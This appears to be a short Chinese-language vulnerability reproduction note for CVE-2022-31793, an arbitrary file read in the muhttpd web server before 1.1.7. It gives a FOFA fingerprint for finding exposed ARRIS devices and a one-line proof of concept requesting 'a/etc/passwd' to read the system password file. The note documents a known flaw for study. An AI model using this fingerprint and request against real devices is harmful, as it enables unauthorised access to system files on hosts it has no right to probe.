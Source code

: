 # muhttpd 任意文件读取漏洞 CVE-2022-31793

## 漏洞描述

muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。

muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。

## 漏洞影响

```
muhttpd 1.1.7
```

## FOFA

```
"2017 ARRIS Enterprises,"
```

## 漏洞复现

登录页面

![1](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131051840.png)

验证POC

```
a/etc/passwd 
```

![2](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131051507.png)